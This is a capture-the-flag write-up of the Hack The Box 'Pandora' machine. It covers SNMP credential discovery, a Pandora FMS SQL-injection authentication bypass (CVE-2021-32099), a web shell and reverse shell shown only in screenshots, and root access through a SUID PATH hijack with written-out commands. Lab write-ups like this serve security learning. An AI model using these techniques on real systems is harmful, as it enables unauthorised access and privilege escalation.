 # Pandora

## Gaining Access

Nmap scan results:

<figure><img src="../../../.gitbook/assets/image (391).png" alt=""><figcaption></figcaption></figure>

### Port 80

The website was some form of corporate website.&#x20;

<figure><img src="../../../.gitbook/assets/image (397).png" alt=""><figcaption></figcaption></figure>

However, checking for directories or other web exploits was rather unsuccessful, as I did not find anything of use.&#x20;

### SNMP

Because we couldn't find anything with the TCP ports, we could enumerate the UDP ports and hopefully find something:

```
$ sudo nmap -sU -top-ports=100 panda.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-28 06:00 EDT
Nmap scan report for panda.htb (10.10.11.136)
Host is up (0.089s latency).
Not shown: 99 closed ports
PORT    STATE SERVICE
161/udp open  snmp

Nmap done: 1 IP address (1 host up) scanned in 95.71 seconds
```

So port 161 for SNMP was open. We can then use `snmpwalk` to enumerate this further.

<figure><img src="../../../.gitbook/assets/image (378).png" alt=""><figcaption></figcaption></figure>

Redirecting this output to a file, I was able to find some credentials within the contents:

<figure><img src="../../../.gitbook/assets/image (409).png" alt=""><figcaption></figcaption></figure>

With these credentials, we can SSH in as the `daniel` user.

## Privilege Escalation

### Pandora FMS

As Daniel, we didn't have much permissions over the machine. However, we were able to head to the `/var/www/pandora` directory to find another potential website that was up:

<figure><img src="../../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

Checking the apache2 config files reveals that the user `matt` was running the other web server:

<figure><img src="../../../.gitbook/assets/image (370).png" alt=""><figcaption></figcaption></figure>

So, I started an SSH tunnel using the credentials for `daniel`, and we can forward port 80 to our machine.

```bash
ssh -L 4444:127.0.0.1:80 daniel@pandora.htb
```

<figure><img src="../../../.gitbook/assets/image (400).png" alt=""><figcaption></figcaption></figure>

### Upgrade Session

We can enumerate from the machine that this was a Pandora FMS instance.

<figure><img src="../../../.gitbook/assets/image (386).png" alt=""><figcaption></figcaption></figure>

Pandora FMS was vulnerable to many types of exploits, one of which was CVE-2021-32099, which would leverage SQL Inejction on the `/include/chart_generator.php` endpoint to bypass authentication and allow attackers to login as the admin.

{% embed url="https://github.com/ibnuuby/CVE-2021-32099" %}

Then, we would gain access to the Pandora Dashboard.

<figure><img src="../../../.gitbook/assets/image (363).png" alt=""><figcaption></figcaption></figure>

### RCE as Matt

I did more research and found this repository, which allowed us to make use of the SQL Injection to upload any web shell of our choosing to the server:

<figure><img src="../../../.gitbook/assets/image (385).png" alt=""><figcaption></figcaption></figure>

Then, we can gain a reverse shell via a Python3 shell.

<figure><img src="../../../.gitbook/assets/image (413).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (408).png" alt=""><figcaption></figcaption></figure>

### Exploiting PATH&#x20;

I ran another LinPEAS as `matt`, and found that the root user was running some processes.

<figure><img src="../../../.gitbook/assets/image (365).png" alt=""><figcaption></figcaption></figure>

I also found this one SUID binary called `pandora_backup`.

```bash
$ find / -perm -4000 -ls 2>/dev/null
   264644    164 -rwsr-xr-x   1 root     root       166056 Jan 19  2021 /usr/bin/sudo
   265010     32 -rwsr-xr-x   1 root     root        31032 May 26  2021 /usr/bin/pkexec
   267386     84 -rwsr-xr-x   1 root     root        85064 Jul 14  2021 /usr/bin/chfn
   262764     44 -rwsr-xr-x   1 root     root        44784 Jul 14  2021 /usr/bin/newgrp
   267389     88 -rwsr-xr-x   1 root     root        88464 Jul 14  2021 /usr/bin/gpasswd
   264713     40 -rwsr-xr-x   1 root     root        39144 Jul 21  2020 /usr/bin/umount
   262929     20 -rwsr-x---   1 root     matt        16816 Dec  3 15:58 /usr/bin/pandora_backup
```

Running `pandora_backup` would call `tar` as per the process we found. The fact that `tar` did not use the absolute path means that we can create our own malicious `tar` script that would give us RCE as root because an SUID binary was in use here.

We can run these commands for a shell:

```bash
cp /bin/bash tar
chmod 777 tar
export PATH=$(pwd).$PATH
pandora_backup
```

<figure><img src="../../../.gitbook/assets/image (407).png" alt=""><figcaption></figcaption></figure>
